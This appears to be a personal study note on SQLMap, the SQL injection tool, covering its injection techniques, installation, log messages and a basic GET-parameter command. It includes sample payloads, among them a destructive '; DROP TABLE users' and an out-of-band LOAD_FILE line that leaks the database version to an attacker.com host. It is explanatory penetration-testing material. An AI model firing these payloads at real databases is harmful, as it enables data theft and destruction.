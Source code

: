 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
[SQLMap](https://github.com/sqlmapproject/sqlmap) is a tool for automating the process of detecting and exploiting SQLi vulnerabilities. It supports a plethora of databases types and the following techniques:
- `B` : Boolean-based blind - `AND 1=1`
- `E` : Error-based - `AND GTID_SUBSET(@@version,0)`
- `U` : Union query-based - `UNION ALL SELECT 1,@@version,3`
- `S` : Stacked queries - `; DROP TABLE users`
- `T` : Time-based blind - `AND 1=IF(2>1,SLEEP(5),0)`
- `Q` : Inline queries - `(SELECT @@version)`
- ` ` : Out-of-band injection - `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

## Installation
```
sudo apt install sqlmap

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Documentation
**Cheatsheet:** 
**Website:** https://github.com/sqlmapproject/sqlmap

## Important log messages
- `Target URL content is stable` : means that the responses are fairly consistent meaning its easier to spot the effects of SQLi attempts
- `GET parameter 'id' appears to be dynamic` : `dynamic` means that changes made to its value, change the output in the response (opposite is `static`)
- `heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')` : means that the get parameter needs to be tested further and it has attempted to guess the DBMS provider based on output.
- `heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks` : SQLMap also quickly runs XSS tests. Its nice to have when running against large websites, *two birds with one stone*.
- `reflective value(s) found and filtering out` : a warning to say that some parts of the payload can be seen in the output so they need to be filtered out before comparing the original page content (*SQLMap does this filtering automatically*).
- 

## Usage
```bash
sqlmap -h # Basic options (most common)
sqlmap -hh # Advanced options
```

### GET Parameters
```bash
sqlmap -u "https://example.com/index.php?id=1" --batch
```
> `--batch` skips all user-input, automatically choosing based on the default options
>